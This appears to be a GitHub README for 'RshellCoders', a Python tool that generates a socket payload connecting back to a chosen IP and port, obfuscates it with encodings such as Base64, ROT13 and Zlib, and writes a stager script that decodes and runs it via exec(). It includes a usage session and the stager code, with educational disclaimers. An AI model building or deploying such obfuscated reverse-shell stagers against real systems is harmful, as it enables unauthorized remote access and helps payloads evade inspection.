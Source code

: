 # RshellCoders 
Payload Generator & Encoder is a Python tool that generates a custom payload to establish a network connection via a socket (using a specified IP and port) and encodes it in various formats (Base64, Hex, ROT13, URL, UTF-16, Zlib) 
```markdown 
# Payload Generator & Encoder 

**Payload Generator & Encoder** is a Python tool that generates a custom payload to connect to a remote server via socket, and then encodes it in various formats like Base64, Hex, ROT13, URL, UTF-16, and Zlib. This script can be used to create obfuscated payloads, often used in penetration testing or controlled environments to assess security. 

--- 

## 🚨 Disclaimer 

**This project is for educational purposes only.** You must obtain explicit permission before using this tool on a network or target machine. Using this tool to compromise systems without permission is illegal and may result in legal action. 

The author will not be responsible for malicious use of this code. Use it at your own risk. 

--- 

## 📜 Features 

- **Generate custom payload** to connect to a remote server via socket (using a given IP address and port). 
- **Encode the payload** in different formats: 
  - Base64 
  - Hex 
  - ROT13 
  - URL encoding 
  - UTF-16 
  - Zlib compression 
- **Generate a Python script** that can be run to decode and execute the payload. 
- **Interactive command line interface** to enter the necessary parameters and choose the encoding format. 

--- 

## ⚙️ Prerequisites 

- Python 3.x 
- Standard Python libraries (no external dependencies required) 

--- 

## 🛠 Installation 

1. Clone this repository to your machine: 
   ```bash 
[ https://github.com/HackfutSec/RshellCoders.git ``` 

2. Navigate to the project directory: 
   ```bash 
   cd RshellCoders 
   ``` 

--- 

## 🚀 Usage 

### 1. Run the script 

Run the `BlitzCoders.py` script: 

```bash 
python BlitzCoders.py 
``` 

### 2. Enter parameters 

- **IP**: Enter the target IP address. 
- **Port**: Enter the target port. 
- **Output filename**: Enter the filename for the generated Python script (without a `.py` extension). 
- **Encoding format**: Choose one of the following formats: 
  - **1**: Base64
  - **2**: Hex 
  - **3**: ROT13 
  - **4**: URL encoding 
  - **5**: UTF-16 
  - **6**: Zlib 

### 3. Execution example 

``` 
$ python BlitzCoders.py 

[CDX] Enter your IP: 192.168.1.10 
[CDX] Enter your port: 4444 
[CDX] Enter the output filename (without extension): payload_script 

[CDX] Choose the encoding format: 
1. base64 
2. hex 
3. rot13 
4. url 
5. utf-16 
6. zlib 

[CDX] Enter the number of the encoding format: 1 

[CDX] The script has been saved at: '/path/to/your/payload_script.py'. 
``` 

--- 

## 🧳 Code Explanation 

1. **Generating the Payload**: 
   - The `generate_payload(ip, port)` function generates a Python payload that connects to a server via a socket using the IP and port provided by the user. 
   
2. **Encoding the Payload**: 
   - The generated payload is then encoded in a format chosen by the user: Base64, Hex, ROT13, URL, UTF-16, or Zlib. 

3. **Creating the Python Script**: 
   - The `create_script(encoded_payload, encoding_format, output_filename)` function generates a Python script that includes the encoded payload and a decoding mechanism to execute the payload once the script is launched. 

4. **Payload Decoding and Execution**: 
   - When the generated script is executed, it decodes the payload according to the specified encoding and uses the `exec()` function to execute it. 

--- 

## ⚠️ License 

This project is licensed under **MIT**. See the [LICENSE](LICENSE) file for more details. 

--- 

## 📞 Contact 

- **Author**: Hackfut 
- **Contact**: [Telegram](https://t.me/HackfutSec) 

--- 

## 🔧 Contributions 

Contributions are welcome! If you want to improve this project or add new features, please submit a pull request. 

--- 

## 📝 Notes 

- **Ethics**: This tool should only be used in test environments where you have permission to perform security assessments. 
- **Malicious Use**: Using this tool to attack systems without authorization is illegal. 
- **Security Risks**: Be careful when using remote payloads, especially in production environments. 

--- 

### Example generated script: 

```python 
import base64 
import binascii 
import codecs 
import urllib.parse 
import zlib

def decode_payload(encoded_payload, encoding_format): 
    if encoding_format == 'base64': 
        return base64.b64decode(encoded_payload).decode('utf-8') 
    elif encoding_format == 'hex': 
        return binascii.unhexlify(encoded_payload).decode('utf-8') 
    elif encoding_format == 'rot13': 
        return codecs.decode(encoded_payload, 'rot_13') 
    elif encoding_format == 'url': 
        return urllib.parse.unquote(encoded_payload) 
    elif encoding_format == 'utf-16': 
        return encoded_payload.encode('latin-1').decode('utf-16') 
    elif encoding_format == 'zlib': 
        return zlib.decompress(bytes.fromhex(encoded_payload)).decode('utf-8') 
    else: 
        raise ValueError("Unrecognized encoding format.") 

if __name__ == "__main__": 
    encoded_payload = 'BASE64_ENCODED_PAYLOAD' 
    encoding_format = 'base64' 
    
    # Decode and execute the payload 
    exec(decode_payload(encoded_payload, encoding_format)) 
``` 

--- 

**Warning**: This script generates payloads that can potentially be used for malicious purposes. Be responsible in its use. 
``` 

--- 

### Explanation of sections: 

- **Usage**: Explains how the user interacts with the tool and provides an example of execution. 
- **Generating the payload**: Details the different steps the script follows to create a payload and encode it in different formats. 
- **License**: Reminds the user that the project is licensed under the MIT License and should be used ethically. 
- **Contact**: Provides a way to contact the author of the project. 

This will allow any user to understand how to use the tool and learn more about how it works.
